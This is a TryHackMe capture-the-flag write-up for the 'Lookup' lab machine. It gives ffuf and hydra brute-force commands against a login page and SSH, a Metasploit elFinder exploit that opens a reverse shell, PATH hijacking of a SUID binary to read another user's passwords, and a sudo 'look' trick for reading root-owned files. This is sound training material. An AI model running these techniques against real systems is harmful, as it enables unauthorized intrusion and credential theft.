





# Lookup - TryHackMe Writeup

**TL;DR:** Web brute-force → elFinder RCE → www-data → PATH hijack → think → sudo look → root

## Target
- Machine: `lookup.thm`
- Date: 2025-6-1
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn lookup.thm

22/tcp   open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
```

2. Web Enumeration & Login Bypass

- Accessed the main website which revealed a login portal
- Testing with common credentials `admin:admin` showed "Wrong password" - confirming the user `admin` exists


#### Password Brute-force Attempt :

```bash
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 -u http://lookup.thm/login.php


# :[REDACTED]             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 139ms]
```

Found potential password
but login failed with message:
`Wrong username or password. Please try again.`

#### Username Brute-force

```bash
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt  -p [REDACTED] lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password" -V
```

Successfully identified valid credentials:



Successful login redirected to `files.lookup.thm` 
Added domain `files.lookup.thm` to `/etc/hosts`.

-------------------------------------------------

After successful login, the application redirected to a file manager interface:



elFinder `is an open-source file manager for web, written in JavaScript using jQuery UI.
Creation is inspired by simplicity and convenience of Finder program.`

The version of the elFinder here is: 2.1.47

#### Find exploit:



elFinder 2.1.47 contains a known RCE (Remote Code Execution) vulnerability

#### Metasploit Exploitation

```bash
# Launch Metasploit and configure exploit
use exploit/multi/http/elfinder_archive_cmd_injection
set RHOSTS files.lookup.thm
set LHOST [YOUR_IP]
exploit
```



#### Successful Exploitation
```bash
meterpreter > shell
Process 1330 created.
Channel 0 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
<var/www/files.lookup.thm/public_html/elFinder/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Successfully gained initial foothold as `www-data` user through elFinder RCE vulnerability.

## user flag

SUID Binaries Enumeration:
```bash
find / -perm -4000 -type f 2>/dev/null
```

Found `/usr/sbin/pwm` with SUID permissions

```bash
/usr/sbin/pwm

[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found

```
The `pwm` program was found to execute the `id` command to extract user information.
It then attempts to read the `.passwords` file from the current user's home directory.

#### PATH Hijacking:

```bash
# Create a malicious script to replace the 'id' command
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
chmod +x /tmp/id

# Modify PATH to prioritize /tmp directory
export PATH=/tmp:$PATH

# Exploitaion

/usr/sbin/pwm
```

That will display contents of `/home/think/.passwords`.

#### SSH Brute Force

Copy the passwords to file and run:

```bash
hydra -l think -P pass.txt ssh://lookup.thm
```



Connect via ssh and get the user flag:

```bash
ssh think@MACHINE_IP


cat user.txt 
[REDACTED]
```

## Root flag

Sudo Privilege Discovery:
```
sudo -l

# User think may run the following commands on ip-10-10-37-54:
    (ALL) /usr/bin/look
```
User `think` can run `/usr/bin/look` as root

Root Flag Extraction:
```
sudo look '' /root/root.txt

[REDACTED]

```
